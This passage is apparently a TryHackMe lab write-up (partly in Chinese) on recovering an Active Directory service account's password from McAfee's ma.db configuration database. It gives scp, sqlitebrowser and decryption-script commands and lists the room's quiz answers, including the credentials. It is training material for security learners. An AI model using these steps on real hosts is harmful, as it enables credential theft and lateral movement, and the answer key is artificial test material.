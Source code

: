 
# Task 7  Configuration Files

下载db文件
```
┌──(root💀kali)-[~/tryhackme/BreachingActiveDireectory]
└─# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@thmjmp1.za.tryhackme.com's password: 
ma.db 
```

打开数据库

```
sqlitebrowser ma.db
```

查看AGENT_REPOSITORIES这个表

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659955269804.jpg)


留意AUTH_PASSWD 字段


执行
```
python2 mcafee_sitelist_pwd_decrypt.py jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q== 
```

> What type of files often contain stored credentials on hosts?

> Configuration Files

> What is the name of the McAfee database that stores configuration including credentials used to connect to the orchestrator?

> ma.db

> What table in this database stores the credentials of the orchestrator?

> AGENT_REPOSITORIES

> What is the username of the AD account associated with the McAfee service?

> svcAV

> What is the password of the AD account associated with the McAfee service?

> MyStrongPassword!